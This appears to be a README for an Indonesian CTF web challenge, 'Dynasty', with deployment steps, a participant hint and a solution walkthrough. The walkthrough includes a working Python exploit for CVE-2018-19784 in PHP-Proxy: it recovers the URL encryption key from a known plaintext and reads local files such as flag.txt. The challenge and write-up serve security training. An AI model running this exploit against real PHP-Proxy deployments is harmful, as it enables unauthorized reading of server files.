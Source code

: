 # Dynasty

Difficulty: Medium
Status: Not started
Tags: Web

# Web_Dynasty_Medium

Author: Ismail Hakim - twang#7040

A web blackbox CTF challenge.

Descriptions: Hi guys, kita sedang mengembangkan aplikasi tracking silsilah keluarga crazy rich kita dengan cara mengintegrasikan ke Google search.

# Untuk Panitia

Flag: FindITCTF{flag}

Deployment steps:

```bash
sudo apt install docker-compose

cd web_dynasty/service
docker-compose up

# Untuk mematikan
CTRL - C
docker-compose down
```

Solving steps:

1. Directory bruteforcing dengan wordlist pada common.txt
2. Memahami cara kerja dari proxy. Dan melakukan information gathering berkaitan dengan proxy php : PHP-Proxy (LFI vulnerability)
3. PHP-Proxy memiliki vulnerability Local File Inclusion akibat enkripsi yang kurang baik. Hal ini dapat dilakukan apabila kita mengetahui plain text dan cipher text (CVE-2018-19784)
4. PoC based on [https://github.com/Athlon1600/php-proxy-app/issues/135](https://github.com/Athlon1600/php-proxy-app/issues/135)

```python
import requests
import base64

def encrypt(plaintext, key):
    key_length = len(key)
    key_as_int = [ord(i) for i in key]
    plaintext_int = [ord(i) for i in plaintext]
    ciphertext = []
    for i in range(len(plaintext_int)):
        value = (plaintext_int[i] + key_as_int[i % key_length]) % 256
        ciphertext.append(value)
    return bytes(ciphertext)

def calculate_key(ciphertext, plaintext):
    key = []
    for i in range(0, len(ciphertext)):
        if ciphertext[i] - ord(plaintext[i]) < 0:
            key.append(chr(ciphertext[i] - ord(plaintext[i]) + 256))
        else:
            key.append(chr(ciphertext[i] - ord(plaintext[i])))

    return "".join(key[:32])

def exploit(url, file_to_read):
    r = requests.post(url + '/index.php', data={'url': 'http://aaaaaaaaaaaaaaaaaaaaaaaaaaa.com'}, allow_redirects=False)

    b64_url_ciphertext = r.headers['location'].split('?q=')[1]
    b64_url_ciphertext = b64_url_ciphertext + "=" * (len(b64_url_ciphertext) % 4)
    url_ciphertext = base64.b64decode(b64_url_ciphertext)
    url_plaintext = 'http://aaaaaaaaaaaaaaaaaaaaaaaaaaa.com'

    key = calculate_key(url_ciphertext, url_plaintext)
    return requests.get(url + '/index.php', params={'q': base64.b64encode(encrypt(file_to_read, key))}).text

print(exploit('http://localhost:1337/app', 'file:///var/www/html/flag.txt'))
```

# Untuk Peserta

Web_Dynasty_Medium

**Author**: Ismail Hakim - twang#7040

**Descriptions**: Hi guys, kita sedang mengembangkan aplikasi tracking silsilah keluarga crazy rich dengan cara mengintegrasikan ke Google search engine. To-do: cek keamanan proxy pada server php kita. Mungkin ada versi yang lebih baru dari versi 5.1.0.

**Hint**: flag ada di /var/www/html